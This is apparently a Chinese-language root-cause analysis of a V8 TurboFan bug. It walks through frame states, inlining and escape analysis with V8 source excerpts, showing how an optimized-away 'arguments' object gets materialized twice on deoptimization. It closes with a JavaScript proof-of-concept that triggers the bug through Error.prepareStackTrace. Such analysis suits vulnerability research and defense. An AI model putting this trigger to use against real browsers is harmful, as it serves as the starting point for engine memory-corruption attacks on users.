    OperandGenerator* g, StateObjectDeduplicator* deduplicator, Node* node,
    FrameStateInputKind kind, Zone* zone) {
    ...
    StateValuesAccess::iterator it = StateValuesAccess(node).begin();
    // Take advantage of sparse nature of StateValuesAccess to skip over
    // multiple empty nodes at once pushing repeated OptimizedOuts all in one
    // go.
    while (!it.done()) {
      values->PushOptimizedOut(it.AdvanceTillNotEmpty());
      if (it.done()) break;
      StateValuesAccess::TypedNode input_node = *it;
      entries += AddOperandToStateValueDescriptor(values, inputs, g,
                                                  deduplicator, input_node.node,
                                                  input_node.type, kind, zone);
      ++it;
    }
    ...
    return entries;
  }
}

// Returns the number of instruction operands added to inputs.
size_t InstructionSelector::AddInputsToFrameStateDescriptor(
    FrameStateDescriptor* descriptor, FrameState state, OperandGenerator* g,
    StateObjectDeduplicator* deduplicator, InstructionOperandVector* inputs,
    FrameStateInputKind kind, Zone* zone) {
  ...
  Node* parameters = state.parameters();
  ...

  StateValueList* values_descriptor = descriptor->GetStateValueDescriptors();

  DCHECK_EQ(values_descriptor->size(), 0u);
  values_descriptor->ReserveSize(descriptor->GetSize());

  ...

  // 处理参数
  entries += AddInputsToFrameStateDescriptor(
      values_descriptor, inputs, g, deduplicator, parameters, kind, zone); // <<<<

  ...
}

void InstructionSelector::AppendDeoptimizeArguments(
    InstructionOperandVector* args, DeoptimizeKind kind,
    DeoptimizeReason reason, NodeId node_id, FeedbackSource const& feedback,
    FrameState frame_state) {
  OperandGenerator g(this);
  FrameStateDescriptor* const descriptor = GetFrameStateDescriptor(frame_state);
  DCHECK_NE(DeoptimizeKind::kLazy, kind);
  int const state_id = sequence()->AddDeoptimizationEntry(
      descriptor, kind, reason, node_id, feedback);
  args->push_back(g.TempImmediate(state_id));
  StateObjectDeduplicator deduplicator(instruction_zone());
  AddInputsToFrameStateDescriptor(descriptor, frame_state, &g, &deduplicator,
                                  args, FrameStateInputKind::kAny,
                                  instruction_zone()); // <<<<
}

// TODO(bmeurer): Get rid of the CallBuffer business and make
// InstructionSelector::VisitCall platform independent instead.
void InstructionSelector::InitializeCallBuffer(Node* call, CallBuffer* buffer,
                                               CallBufferFlags flags,
                                               int stack_param_delta) {
  ...

  // If the call needs a frame state, we insert the state information as
  // follows (n is the number of value inputs to the frame state):
  // arg 1               : deoptimization id.
  // arg 2 - arg (n + 2) : value inputs to the frame state.
  size_t frame_state_entries = 0;
  USE(frame_state_entries);  // frame_state_entries is only used for debug.
  if (buffer->frame_state_descriptor != nullptr) {
    FrameState frame_state{
        call->InputAt(static_cast<int>(buffer->descriptor->InputCount()))};

    ...
    
    int const state_id = sequence()->AddDeoptimizationEntry(
        buffer->frame_state_descriptor, DeoptimizeKind::kLazy,
        DeoptimizeReason::kUnknown, call->id(), FeedbackSource());
    buffer->instruction_args.push_back(g.TempImmediate(state_id));

    StateObjectDeduplicator deduplicator(instruction_zone());

    frame_state_entries =
        1 + AddInputsToFrameStateDescriptor(
                buffer->frame_state_descriptor, frame_state, &g, &deduplicator,
                &buffer->instruction_args, FrameStateInputKind::kStackSlot,
                instruction_zone()); // <<<<<

    DCHECK_EQ(1 + frame_state_entries, buffer->instruction_args.size());
  }
  ...
}


void InstructionSelector::VisitCall(Node* node, BasicBlock* handler) {
  ...

  CallBuffer buffer(zone(), call_descriptor, frame_state_descriptor);
  CallDescriptor::Flags flags = call_descriptor->flags();

  // Compute InstructionOperands for inputs and outputs.
  // TODO(turbofan): on some architectures it's probably better to use
  // the code object in a register if there are multiple uses of it.
  // Improve constant pool and the heuristics in the register allocator
  // for where to emit constants.
  CallBufferFlags call_buffer_flags(kCallCodeImmediate | kCallAddressImmediate);
  InitializeCallBuffer(node, &buffer, call_buffer_flags); //<<<<

  ...
}
```

FrameState 节点是 `BytecodeGraphBuilder` 在生成 turbofan 图 IR 时创建的，用 [turbolizer](https://v8.github.io/tools/head/turbolizer/index.html) 打开 turbofan 输出的 trace 文件，从后往前分析 IR 后发现，`kObjectId` 节点对应的是 `b.a.call(arguments,b)` 函数调用的 FrameState 中的 receiver 参数

![[Pasted image 20230811003541.png]]
kObjectId 节点是在 EscapeAnalysis 阶段创建的
![[Pasted image 20230811003746.png]]

再看一下 EscapeAnalysis 之前的 LoadElimination 阶段, 对应的位置是一个 kFinishRegion 节点，浏览相关代码后得知这个节点是 `AllocationBuilder` 创建的，是一系列对象创建操作的结尾，结合 POC 源码推测，这里代表的是 arguments 对象的创建。 

![[Pasted image 20230811005830.png]]

再往前追溯到 Typer 阶段，发现这里变成了 JSCrateArguments 节点，就刚好可以证实之前的推测。

![[Pasted image 20230814232830.png]]

再往前追溯，下次变化在 BytecodeGraphBuilder 阶段，这个是因为紧随其后的 Inlining 阶段把 JSCall

![[Pasted image 20230815221029.png]]

从 turbofan 的源码视图也可以看出来两个子函数都被 inline 进了最外层的函数

![[Pasted image 20230815221141.png]]

在选定好 inline 的目标后，是在 `JSInliner::ReduceJSCall(Node* node)` 函数中完成实际的 inline 操作。主要是创建子函数的 IR 图，之后把它连接到父函数的 IR 图中。连接过程从，有两个操作引起了我的注意：
- 用调用点 (JSCall节点) 的 FrameState 替换子函数内部的 FrameState 的 outer_frame_state 输入
- 用调用点 (JSCall节点) 的实参 (inputs) 替代子函数的 形参 (Parameters) 节点

了解了这些再来仔细看下 inline 之后的情况

![[Pasted image 20230816004600.png]]

此时这个 JSCall 对应的已经是 a.b(0, a) 这个函数调用, 所以这个 FrameState 对应的是
```
(a) {
    a.b(0, a)
}
```

这个函数的参数是 `b.a.call(arguments, b)` 调用传递的，
this => arguments，所以图中是一个 JSCreateArguments 节点
parameter1 => b，再往上追溯到 `b.d(a, b, 1)` 中的 b, 最终追溯到最外层函数的第二个参数 `b`, 所以图中是 Parameter[2]，代表是最外层函数的第二个参数。

还要注意下 102: FrameState 这个节点，它是 134:FrameState 的 outer_frame, 也就是 `b.a.call(arguments, b)` 这个调用处的 FrameState，可以看到 JSCreateArguments 节点也是 102 这个 FrameState 的局部变量，这个信息对触发漏洞也很重要。

这里再简单说一下 FrameState 节点的创建，最初的 FrameState 节点是在从字节码创建图 IR 时按需调用 `Checkpoint()` 创建的，每个 FrameState 节点都代表着当前位置的栈状态，存储着当前函数的参数，局部变量，this, context 等信息。

```cpp
Node* BytecodeGraphBuilder::Environment::Checkpoint(
    BytecodeOffset bailout_id, OutputFrameStateCombine combine,
    const BytecodeLivenessState* liveness) {
  if (parameter_count() == register_count()) {
    // Re-use the state-value cache if the number of local registers happens
    // to match the parameter count.
    parameters_state_values_ =
        GetStateValuesFromCache(&values()->at(0), parameter_count(), nullptr);
  } else {
    UpdateStateValues(&parameters_state_values_, &values()->at(0),
                      parameter_count());
  }

  Node* registers_state_values = GetStateValuesFromCache(
      &values()->at(register_base()), register_count(), liveness);

  bool accumulator_is_live = !liveness || liveness->AccumulatorIsLive();
  Node* accumulator_state_value =
      accumulator_is_live && combine != OutputFrameStateCombine::PokeAt(0)
          ? values()->at(accumulator_base())
          : builder()->jsgraph()->OptimizedOutConstant();

  const Operator* op = common()->FrameState(
      bailout_id, combine, builder()->frame_state_function_info());
  Node* result = graph()->NewNode(
      op, parameters_state_values_, registers_state_values,
      accumulator_state_value, Context(), builder()->GetFunctionClosure(),
      builder()->graph()->start());

  return result;
}

// Issues:
// - Scopes - intimately tied to AST. Need to eval what is needed.
// - Need to resolve closure parameter treatment.
BytecodeGraphBuilder::Environment::Environment(
    BytecodeGraphBuilder* builder, int register_count, int parameter_count,
    interpreter::Register incoming_new_target_or_generator,
    Node* control_dependency)
    : builder_(builder),
      register_count_(register_count),
      parameter_count_(parameter_count),
      control_dependency_(control_dependency),
      effect_dependency_(control_dependency),
      values_(builder->local_zone()),
      parameters_state_values_(nullptr),
      generator_state_(nullptr) {
  // The layout of values_ is:
  //
  // [receiver] [parameters] [registers] [accumulator]
  //
  // parameter[0] is the receiver (this), parameters 1..N are the
  // parameters supplied to the method (arg0..argN-1). The accumulator
  // is stored separately.

  // Parameters including the receiver
  for (int i = 0; i < parameter_count; i++) {
    const char* debug_name = (i == 0) ? "%this" : nullptr;
    Node* parameter = builder->GetParameter(i, debug_name);
    values()->push_back(parameter);
  }

  // Registers
  register_base_ = static_cast<int>(values()->size());
  Node* undefined_constant = builder->jsgraph()->UndefinedConstant();
  values()->insert(values()->end(), register_count, undefined_constant);

  // Accumulator
  accumulator_base_ = static_cast<int>(values()->size());
  values()->push_back(undefined_constant);

  // Context
  int context_index = Linkage::GetJSCallContextParamIndex(parameter_count);
  context_ = builder->GetParameter(context_index, "%context");

  // Incoming new.target or generator register
  if (incoming_new_target_or_generator.is_valid()) {
    int new_target_index =
        Linkage::GetJSCallNewTargetParamIndex(parameter_count);
    Node* new_target_node =
        builder->GetParameter(new_target_index, "%new.target");

    int values_index = RegisterToValuesIndex(incoming_new_target_or_generator);
    values()->at(values_index) = new_target_node;
  }
}

Node* BytecodeGraphBuilder::GetParameter(int parameter_index,
                                         const char* debug_name_hint) {
  // We use negative indices for some parameters.
  DCHECK_LE(ParameterInfo::kMinIndex, parameter_index);
  const size_t index =
      static_cast<size_t>(parameter_index - ParameterInfo::kMinIndex);

  if (cached_parameters_.size() <= index) {
    cached_parameters_.resize(index + 1, nullptr);
  }

  if (cached_parameters_[index] == nullptr) {
    cached_parameters_[index] =
        NewNode(common()->Parameter(parameter_index, debug_name_hint),
                graph()->start());
  }

  return cached_parameters_[index];
}
```

了解了这些来龙去脉，回头来仔细分析 JSCreateArguments 节点是怎么被优化掉的。

根据 turbolizer 显示的信息，JSCreateArguments 先是在 TypedLowering 阶段被优化成了实际的对象创建操作(以 FinishRegion 结尾的一系列节点组成)。

```cpp
Reduction JSCreateLowering::ReduceJSCreateArguments(Node* node) {
  DCHECK_EQ(IrOpcode::kJSCreateArguments, node->opcode());
  CreateArgumentsType type = CreateArgumentsTypeOf(node->op());
  FrameState frame_state{NodeProperties::GetFrameStateInput(node)};
  Node* const control = graph()->start();
  FrameStateInfo state_info = frame_state.frame_state_info();
  SharedFunctionInfoRef shared =
      MakeRef(broker(), state_info.shared_info().ToHandleChecked());

  // Use the ArgumentsAccessStub for materializing both mapped and unmapped
  // arguments object, but only for non-inlined (i.e. outermost) frames.
  if (frame_state.outer_frame_state()->opcode() != IrOpcode::kFrameState) {
    ...
  }
  // Use inline allocation for all mapped arguments objects within inlined
  // (i.e. non-outermost) frames, independent of the object size.
  DCHECK_EQ(frame_state.outer_frame_state()->opcode(), IrOpcode::kFrameState);
  switch (type) {
	  ...
	 case CreateArgumentsType::kUnmappedArguments: {
      // Use inline allocation for all unmapped arguments objects within inlined
      // (i.e. non-outermost) frames, independent of the object size.
      Node* effect = NodeProperties::GetEffectInput(node);
      // Choose the correct frame state and frame state info depending on
      // whether there conceptually is an arguments adaptor frame in the call
      // chain.
      FrameState args_state = GetArgumentsFrameState(frame_state);
      if (args_state.parameters()->opcode() == IrOpcode::kDeadValue) {
        // This protects against an incompletely propagated DeadValue node.
        // If the FrameState has a DeadValue input, then this node will be
        // pruned anyway.
        return NoChange();
      }
      FrameStateInfo args_state_info = args_state.frame_state_info();
      int length = args_state_info.parameter_count() - 1;  // Minus receiver.
      // Prepare element backing store to be used by arguments object.
      Node* const elements = TryAllocateArguments(effect, control, args_state);
      if (elements == nullptr) return NoChange();
      effect = elements->op()->EffectOutputCount() > 0 ? elements : effect;
      // Load the arguments object map.
      Node* const arguments_map =
          jsgraph()->Constant(native_context().strict_arguments_map());
      // Actually allocate and initialize the arguments object.
      AllocationBuilder a(jsgraph(), effect, control);
      STATIC_ASSERT(JSStrictArgumentsObject::kSize == 4 * kTaggedSize);
      a.Allocate(JSStrictArgumentsObject::kSize);
      a.Store(AccessBuilder::ForMap(), arguments_map);
      a.Store(AccessBuilder::ForJSObjectPropertiesOrHashKnownPointer(),
              jsgraph()->EmptyFixedArrayConstant());
      a.Store(AccessBuilder::ForJSObjectElements(), elements);
      a.Store(AccessBuilder::ForArgumentsLength(), jsgraph()->Constant(length));
      RelaxControls(node);
      a.FinishAndChange(node);
      return Changed(node);
    }
	...
  }
  UNREACHABLE();
}
```

优化过后 JSCreateArguments 就被展开成了下面这些 Allocate 和 StoreField 节点。

![[Pasted image 20230816223925.png]]

![[Pasted image 20230816224756.png]]

之后这个状态一直保持到了逃逸分析 EscapeAnalysis 阶段，在逃逸分析阶段被优化成了下图的样子。

![[Pasted image 20230816232212.png]]

[逃逸分析](https://en.wikipedia.org/wiki/Escape_analysis)是一种编译优化手段，简单来说如果编译器分析出一个对象只在某个范围内，例如一个函数内部，被创建并使用，那么就可以对它进行一些优化，例如本来应该在堆上分配的对象，如果只在函数内部使用就可以优化到栈上，这种情况可以称为被捕获。反过来如果编译器不能分析出对象只在特定范围内被使用，就可以说对象是逃逸的。推测是编译器分析出 arguments 对象只在函数内部使用，所以对它进行了一些优化。

下面来调试了一下逃逸分析，验证一下我的推测。调试发现 kFinishRegion 节点是在 `EscapeAnalysisReducer::ReduceDeoptState` 函数中被替换成 kObjectId 的，在处理 FrameState 以及其关联节点的过程中，发现 kFinishRegion 对应的对象是没有逃逸的，所以直接把 kFinishRegion 替换成了 ObjectState 和 kObjectId 节点。这里要注意 FrameState 节点处理流程中的 for 循环的遍历顺序，是先处理 kFrameStateOuterStateInput，之后才处理 kFrameStateParametersInput，所以 OuterFrameState 中的 kFinishRegion 节点被替换成了 ObjectState，而 kFrameStateParametersInput 中的 kFinishRegion 节点被替换成了 ObjectId。

```CPP
Node* EscapeAnalysisReducer::ReduceDeoptState(Node* node, Node* effect,
                                              Deduplicator* deduplicator) {
  if (node->opcode() == IrOpcode::kFrameState) {
    NodeHashCache::Constructor new_node(&node_cache_, node);
    // This input order is important to match the DFS traversal used in the
    // instruction selector. Otherwise, the instruction selector might find a
    // duplicate node before the original one.
    // 注意这里的遍历顺序, 是先从 kFrameStateOuterStateInput 开始, 所以
    for (int input_id : {FrameState::kFrameStateOuterStateInput,
                         FrameState::kFrameStateFunctionInput,
                         FrameState::kFrameStateParametersInput,
                         FrameState::kFrameStateContextInput,
                         FrameState::kFrameStateLocalsInput,
                         FrameState::kFrameStateStackInput}) {
      Node* input = node->InputAt(input_id);
      new_node.ReplaceInput(ReduceDeoptState(input, effect, deduplicator),
                            input_id);
    }
    return new_node.Get();
  } else if (node->opcode() == IrOpcode::kStateValues) {
    NodeHashCache::Constructor new_node(&node_cache_, node);
    for (int i = 0; i < node->op()->ValueInputCount(); ++i) {
      Node* input = NodeProperties::GetValueInput(node, i);
      new_node.ReplaceValueInput(ReduceDeoptState(input, effect, deduplicator),
                                 i);
    }
    return new_node.Get();
  } else if (const VirtualObject* vobject = analysis_result().GetVirtualObject(
                 SkipValueIdentities(node))) {
    if (vobject->HasEscaped()) return node;
    if (deduplicator->SeenBefore(vobject)) {
      return ObjectIdNode(vobject); //<<<<< 这里
    } else {
      std::vector<Node*> inputs;
      for (int offset = 0; offset < vobject->size(); offset += kTaggedSize) {
        Node* field =
            analysis_result().GetVirtualObjectField(vobject, offset, effect);
        CHECK_NOT_NULL(field);
        if (field != jsgraph()->Dead()) {
          inputs.push_back(ReduceDeoptState(field, effect, deduplicator));
        }
      }
      int num_inputs = static_cast<int>(inputs.size());
      NodeHashCache::Constructor new_node(
          &node_cache_,
          jsgraph()->common()->ObjectState(vobject->id(), num_inputs),
          num_inputs, &inputs.front(), NodeProperties::GetType(node));
      return new_node.Get();
    }
  } else {
    return node;
  }
}
```

上面这部分代码只负责节点的替换，而是节点的分析过程是在 `EscapeAnalysis::ReduceNode` 函数进行的：
- kAllocate：创建一个虚拟对象来追踪的状态
- kFinishRegion： 把 ValueInput(0) 处 kAllocate 节点的虚拟对象传递下去. 
- kStoreField：如果是赋值到被捕获的对象, 在虚拟对象里记录源操作数，省略本次写操作
- kLoadField：如果源操作数是被捕获的对象，直接从对应的虚拟对象里找到之前记录的值，省略本次读操作
- kFrameState, kStateValues: 被这两个节点使用不影响逃逸状态
- 其他节点：标记输入节点为逃逸

```cpp
void ReduceNode(const Operator* op, EscapeAnalysisTracker::Scope* current,
                JSGraph* jsgraph) {
  switch (op->opcode()) {
    case IrOpcode::kAllocate: {
      NumberMatcher size(current->ValueInput(0));
      if (!size.HasResolvedValue()) break;
      int size_int = static_cast<int>(size.ResolvedValue());
      if (size_int != size.ResolvedValue()) break;
      if (const VirtualObject* vobject = current->InitVirtualObject(size_int)) {
        // Initialize with dead nodes as a sentinel for uninitialized memory.
        for (Variable field : *vobject) {
          current->Set(field, jsgraph->Dead());
        }
      }
      break;
    }
    case IrOpcode::kFinishRegion:
      current->SetVirtualObject(current->ValueInput(0));
      break;
    case IrOpcode::kStoreField: {
      Node* object = current->ValueInput(0);
      Node* value = current->ValueInput(1);
      const VirtualObject* vobject = current->GetVirtualObject(object);
      Variable var;
      if (vobject && !vobject->HasEscaped() &&
          vobject->FieldAt(OffsetOfFieldAccess(op)).To(&var)) {
        current->Set(var, value);
        current->MarkForDeletion();
      } else {
        current->SetEscaped(object);
        current->SetEscaped(value);
      }
      break;
    }
    ...
    case IrOpcode::kLoadField: {
      Node* object = current->ValueInput(0);
      const VirtualObject* vobject = current->GetVirtualObject(object);
      Variable var;
      Node* value;
      if (vobject && !vobject->HasEscaped() &&
          vobject->FieldAt(OffsetOfFieldAccess(op)).To(&var) &&
          current->Get(var).To(&value)) {
        current->SetReplacement(value);
      } else {
        current->SetEscaped(object);
      }
      break;
    }
    ...
    case IrOpcode::kStateValues:
    case IrOpcode::kFrameState:
      // These uses are always safe.
      break;
    default: {
      // For unknown nodes, treat all value inputs as escaping.
      int value_input_count = op->ValueInputCount();
      for (int i = 0; i < value_input_count; ++i) {
        Node* input = current->ValueInput(i);
        current->SetEscaped(input);
      }
      if (OperatorProperties::HasContextInput(op)) {
        current->SetEscaped(current->ContextInput());
      }
      break;
    }
  }
}

const VirtualObject* InitVirtualObject(int size) {
  DCHECK_EQ(IrOpcode::kAllocate, current_node()->opcode());
  VirtualObject* vobject = tracker_->virtual_objects_.Get(current_node());
  if (vobject) {
	CHECK(vobject->size() == size);
  } else {
	vobject = tracker_->NewVirtualObject(size);
  }
  if (vobject) vobject->AddDependency(current_node());
  vobject_ = vobject;
  return vobject;
}

void SetVirtualObject(Node* object) {
  vobject_ = tracker_->virtual_objects_.Get(object);
}

~Scope() {
  if (replacement_ != tracker_->replacements_[current_node()] ||
	  vobject_ != tracker_->virtual_objects_.Get(current_node())) {
	reduction()->set_value_changed();
  }
  tracker_->replacements_[current_node()] = replacement_;
  tracker_->virtual_objects_.Set(current_node(), vobject_); 
}
```

分析完成后，`Reduction EscapeAnalysisReducer::Reduce(Node* node)` 根据之前的分析结果修改 IR, `EscapeAnalysisReducer::ReduceDeoptState` 就是在这个阶段被调用的。

分析了这么一大圈，在回过头来看 POC 代码, 终于理解了漏洞发生的原因，C(3) 的返回值是 b.a.call(arguments, b), 中的 arguments，由于这个对象是被函数捕获的，所以在 turbofan 编译过程中被优化掉了，在 turbofan 生成的代码中没有创建，C() 中使用 Error().stack 触发了这个对象的创建，但是创建的代码中有 BUG，多次 Error().stack 获取这个 arguments 对象时，每次都新创建一个出来，导致原本应该是指向同一个对象的 e.M 和 e.C 指向了两个不同的对象。 

```javascript
  function C(z) {
    Error.prepareStackTrace = function(t, B) {
      return B[z].getThis();
    };
    let p = Error().stack;
    Error.prepareStackTrace = null;
    return p;
  }
  function J() {}
  var optim = false;
  var opt = new Function(
      'a', 'b', 'c',
      'if(typeof a===\'number\'){if(a>2){for(var i=0;i<100;i++);return;}b.d(a,b,1);return}' +
          'g++;'.repeat(70));
  var e = null;
  J.prototype.d = new Function(
      'a', 'b', '"use strict";b.a.call(arguments,b);return arguments[a];');
  J.prototype.a = new Function('a', 'a.b(0,a)');
  J.prototype.b = new Function(
      'a', 'b',
      'b.c();if(a){' +
          'g++;'.repeat(70) + '}');
  J.prototype.c = function() {
    if (optim) {
      var z = C(3);
      var p = C(3);
      z[0] = 0;
      e = {M: z, C: p};
    }
  };
```